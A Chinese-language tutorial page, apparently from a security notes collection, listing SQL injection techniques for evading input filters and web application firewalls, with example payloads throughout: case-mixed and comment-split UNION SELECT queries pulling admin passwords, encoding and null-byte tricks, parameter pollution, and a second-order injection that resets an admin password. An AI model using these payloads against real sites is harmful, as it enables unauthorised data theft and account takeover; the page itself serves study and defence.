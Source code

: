 绕过技巧
================================

参考《SQL注入攻击与防御》273页。

- 移动注入位置
	::
	
		如：http://www.example.com/index.php?id=1
		将id=1通过放在表单，或cookie中，测试程序响应是否正常，并进行注入测试。
	
- 大小写变种
	``uNiOn SeLeCt password FrOm tblUsers WhEre username='admin'--``

- SQL注释
    - ``//`` ``--`` ``-- +`` ``-- -`` ``#`` ``/**/`` ``;%00``
    - 内联注释用的更多，它有一个特性 ``/!**/`` 只有MySQL能识别
    - e.g. ``id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#``
- URL编码
	如 ``/?id=1' or 1=1`` 如果value字符串中包含了=,&,'等字符，那么势必会造成接收Url的服务器解析错误，因此必须将引起歧义的&,=,'等符号进行转义，原理如下图所示：

	|sqlbypassurlencode|

- 动态拼接
	- oracle:``'SEL'||'ECT'``
	- MS-SQL:``'SEL'+'ECT'``
	- MySQL:``'SEL' 'ECT'``
	
- 使用空字节
	在过滤器阻止的字符前面提供一个URL编码的空字节（%00）即可。
	如 ``%00' UNION SELECT password FROM tblUsers WHERE username='admin'--`` 

- 通用编码
	- ``or 1=1即%6f%72%20%31%3d%31``
	- ``CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)``
	- ``0x53454c4543542070617373776f72642046524f4d2074626c5573657273``
	- ``单引号：%u0027、%u02b9、%u02bc、 %u02c8、 %u2032、 %uff07、 %c0%27、 %c0%a7、 %e0%80%a7``
	- ``空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0``
	- ``左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8``
	- ``右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9``
	- ``举例：?id=10%D6‘%20AND%201=2%23 SELECT 'Ä'='A'; #1``

- HTTP参数
    - HTTP参数污染
        - ``id=1&id=2&id=3`` 根据容器不同会有不同的结果
    - HTTP分割注入

- 缓冲区溢出
	- 一些C语言的WAF处理的字符串长度有限，超出某个长度后的payload可能不会被处理
	- ``举例：?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26``

- 二阶注入
	- 先构造语句（有被转义字符的语句）
	- 我们构造的恶意语句存入数据库
	- 第二次构造语句（结合前面已经存入数据库的语句，成功。因为系统没有对已经存入数据库的数据做检查）
	- 二次注入更加难以被发现

	::

		假如有一个网站管理员的用户名为：root,密码为:123456789,攻击者注册了一个账号:root'--,密码为:123
		因为账号当中有特殊字符，网站对于特殊字符进行了转义，一次注入在这就行不通了。
		虽然账号被转义了，但是他在数据库当中任然是以  root'--   的方式被储存的。
		现在攻击者开始实施正真的攻击了，他开始对账号修改密码。
		普通网站修改密码的过程为：先判断用户是否存在------》确认用户以前的密码是否正确--------》
		获取要修改的密码---------》修改密码成功。
		在数据库中 -- 表示注释的意思，后面的语句不会执行，而root后面的那个单引号又与前面的 '  闭合，
		而原本后面的那个单引号因为是在 --  之后，所以就被注释掉了，所以他修改的其实是   root  的密码。


.. |sqlbypassurlencode| image:: ../../images/sqlbypassurlencode.png